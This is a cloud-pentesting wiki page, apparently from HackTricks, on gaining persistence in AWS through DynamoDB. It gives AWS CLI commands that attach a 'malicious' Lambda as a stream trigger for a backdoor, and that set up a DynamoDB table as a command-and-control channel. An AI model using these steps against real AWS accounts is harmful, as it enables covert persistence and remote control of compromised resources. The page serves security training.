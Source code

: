 # AWS - DynamoDB Persistence

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

For more information access:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers with Lambda Backdoor

Using DynamoDB triggers, an attacker can create a **stealthy backdoor** by associating a malicious Lambda function with a table. The Lambda function can be triggered when an item is added, modified, or deleted, allowing the attacker to execute arbitrary code within the AWS account.

```bash
# Create a malicious Lambda function
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```

To maintain persistence, the attacker can create or modify items in the DynamoDB table, which will trigger the malicious Lambda function. This allows the attacker to execute code within the AWS account without direct interaction with the Lambda function.

### DynamoDB as a C2 Channel

An attacker can use a DynamoDB table as a **command and control (C2) channel** by creating items containing commands and using compromised instances or Lambda functions to fetch and execute these commands.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insert a command into the table
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

The compromised instances or Lambda functions can periodically check the C2 table for new commands, execute them, and optionally report the results back to the table. This allows the attacker to maintain persistence and control over the compromised resources.

{{#include ../../../banners/hacktricks-training.md}}
